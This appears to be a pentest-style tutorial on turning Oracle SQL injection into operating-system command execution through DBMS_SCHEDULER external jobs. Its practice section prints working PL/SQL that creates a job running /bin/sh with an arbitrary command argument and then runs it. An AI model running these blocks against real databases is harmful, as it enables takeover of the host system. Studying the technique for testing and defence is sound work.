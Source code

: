 ```yaml
---
title: 'Exploiting Oracle DB: OS Command Execution Guide'
description: Learn to exploit Oracle SQL injection via DBMS_SCHEDULER for OS command
  execution.
keywords:
- Oracle SQL injection
- DBMS_SCHEDULER
- OS command execution
- SQL exploitation
- Oracle security
- database vulnerability
- external jobs
- command injection
---
```


# Package os_command

## Context

This article focuses on exploiting an Oracle SQL injection vulnerability to execute operating system (OS) commands using the DBMS_SCHEDULER package. To successfully follow this guide, you should have a solid understanding of SQL queries, the architecture of Oracle databases, and methods for executing OS commands.

## Theory

### DBMS_SCHEDULER and External Jobs

DBMS_SCHEDULER is a powerful Oracle package that enables the scheduling and execution of jobs directly from the Oracle database. Among its functionalities, it allows for the creation of external jobs, which can execute system-level operating system commands.

The key vulnerability here arises from the ability to manipulate DBMS_SCHEDULER through SQL injection. When implemented improperly, this functionality permits attackers to inject SQL code, which can be used to execute arbitrary OS commands via the schedule jobs feature.

### OS Command Injection via SQL

The process of OS command injection via SQL involves exploiting a vulnerability to manipulate the database to create a job that will execute OS commands. This is feasible due to a weakness in the validation of input which permits SQL injection attacks. By injecting crafted SQL queries, an attacker can direct the database to schedule tasks that execute OS commands, potentially compromising the host system.

### Spooling to File

Spooling in Oracle is the act of writing query results to an external file. This capability can be leveraged during attacks to capture the output of injected commands, thus providing the attacker with results of the OS command execution.

## Practice

### OS Command Execution via DBMS_SCHEDULER

The following steps describe how to execute arbitrary OS commands using the DBMS_SCHEDULER package in an Oracle database.

1. **Create a Job to Execute Shell Commands**
    
    The first step involves creating a job within the Oracle database that will facilitate the execution of shell commands. This job is set up via the `DBMS_SCHEDULER.create_job` function.

    ```sql
    BEGIN 
        DBMS_SCHEDULER.create_job(
            job_name => 'cmd_exec', 
            job_type => 'EXECUTABLE', 
            job_action => '/bin/sh', 
            number_of_arguments => 1, 
            enabled => TRUE
        ); 
    END;
    ```

2. **Set the Command to be Executed by the Job**

    With the job created, the next step is configuring the specific command that the job will execute. This is accomplished using the `DBMS_SCHEDULER.set_job_argument_value` function.

    ```sql
    BEGIN 
        DBMS_SCHEDULER.set_job_argument_value(
            job_name => 'cmd_exec', 
            argument_position => 1, 
            argument_value => '-c "<OS_COMMAND>"'
        ); 
    END;
    ```

    Replace `<OS_COMMAND>` with the actual command you intend to run. This might be any shell command, such as a directory listing command like `ls -la`.

3. **Run the Job to Execute the Command**

    Having set the command, running the job is the final step to perform the execution. The `DBMS_SCHEDULER.run_job` function initiates this process.

    ```sql
    BEGIN 
        DBMS_SCHEDULER.run_job(job_name => 'cmd_exec'); 
    END;
    ```

    Upon execution, the command specified will run on the host operating system where the Oracle database resides, providing access to the results of the OS command execution.

## Tools

- **Oracle SQL*Plus**
- **SQLMap** 

These tools aid in interfacing with and exploiting the database to achieve the command execution objectives outlined above.